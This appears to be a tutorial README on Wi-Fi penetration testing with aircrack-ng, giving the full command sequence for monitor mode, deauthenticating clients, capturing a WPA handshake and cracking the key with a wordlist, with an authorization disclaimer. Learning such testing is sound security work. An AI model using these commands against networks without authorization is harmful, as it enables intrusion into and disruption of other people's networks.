 # Wi-Fi Penetration Testing with Aircrack-ng: A Comprehensive Guide

## Introduction

Welcome to the Wi-Fi Penetration Testing guide using the powerful aircrack-ng suite. This tutorial will walk you through the essential steps for assessing the security of Wi-Fi networks. Before diving into the technical aspects, let's ensure you have the necessary tools and understanding of ethical considerations.

## Prerequisites and Setup

### 1. Kali Linux Installation:

- **Purpose:** Kali Linux is a robust penetration testing platform equipped with tools like aircrack-ng.

- **Steps:**
  - Download the Kali Linux ISO from the [official website](https://www.kali.org/).
  - Follow the installation instructions from the website or documentation.
  - Install Kali Linux on your system.

### 2. Wireless Network Card Compatibility:

- **Purpose:** Ensure your wireless card is compatible for effective penetration testing.

- **Steps:**
  - Open a terminal on Kali Linux.
  - Use the following command to list available wireless network cards:
    ```bash
    airmon-ng
    ```
  - Identify your wireless network card (e.g., `wlan0`) for future use.

### 3. Disclaimer and Ethical Considerations:

- **Purpose:** Understand the legal and ethical implications of Wi-Fi penetration testing.

- **Steps:**
  - Carefully read and acknowledge the disclaimer in this tutorial.
  - Ensure you have explicit authorization before conducting any security testing.

## Getting Started with Aircrack-ng:

### 1. Launching Aircrack-ng:

- **Purpose:** Initiate aircrack-ng and configure the wireless card for monitoring.

- **Steps:**
  - Open a terminal on Kali Linux.
  - Execute the following commands:
    ```bash
    # List available wireless network cards
    airmon-ng

    # Start monitor mode (replace wlan0 with your card)
    airmon-ng start wlan0

    # Terminate interfering processes (replace <PID_1>, <PID_2>, <PID_3> with process IDs)
    kill <PID_1> <PID_2> <PID_3>
    ```
  - Replace `<PID_1>`, `<PID_2>`, `<PID_3>` with actual process IDs as needed.

### 2. Capturing the Handshake:

- **Purpose:** Capture the Wi-Fi handshake for analysis.

- **Steps:**
  - Continue in the same terminal:
    ```bash
    # List available networks and capture a handshake
    airodump-ng wlan0mon

    # Perform a deauthentication attack and capture the handshake
    aireplay-ng -0 5 -a <Target_MAC_Address> -c <Client_MAC_Address> wlan0mon

    # Focus on a specific channel and capture data in 'capture' file
    airodump-ng -c 11 -w capture --bssid <Target_MAC_Address> wlan0mon
    ```
  - Replace `<Target_MAC_Address>` and `<Client_MAC_Address>` with actual MAC addresses.

### 3. Cracking the Wi-Fi Key:

- **Purpose:** Utilize aircrack-ng to attempt cracking the Wi-Fi password.

- **Steps:**
  - Execute the following command in the terminal:
    ```bash
    # Crack the password using a wordlist (e.g., passwords.txt)
    aircrack-ng -w passwords.txt capture-01.cap
    ```
  - Replace `passwords.txt` with the wordlist file name and `capture-01.cap` with the handshake capture file.

## Conclusion

Congratulations! You've completed the Wi-Fi Penetration Testing tutorial using aircrack-ng. Remember to operate within ethical boundaries and always obtain proper authorization before conducting security assessments. Feel free to explore more advanced features of aircrack-ng and contribute to the open-source security community.

Happy hacking responsibly!